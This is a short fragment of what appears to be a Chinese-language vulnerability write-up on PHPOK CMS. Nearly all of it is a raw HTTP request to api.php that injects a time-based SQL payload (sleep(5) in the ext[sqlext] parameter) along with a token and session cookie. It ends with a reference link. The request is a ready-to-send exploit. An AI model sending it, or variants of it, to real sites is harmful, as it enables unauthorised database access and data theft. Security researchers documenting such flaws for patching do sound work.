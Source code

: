 ```
GET /api.php?c=index&f=phpok&token=6318fdtC3WRpOzYNzKVNw78PFa9OhFea5pp3/uZ4U3T67a/F47WhJ0lr856V7yomOcG0u8/UJpIwKKOwJAKspTSWN+5ljVNWR5978g7HHoG14M&ext[sqlext]=sleep(5)%23&ext[site]=1 HTTP/1.1
Host: 0-sec.org
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; U; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4
Connection: close 
```

## 四、参考链接

> [https://xz.aliyun.com/t/6830](https://xz.aliyun.com/t/6830)


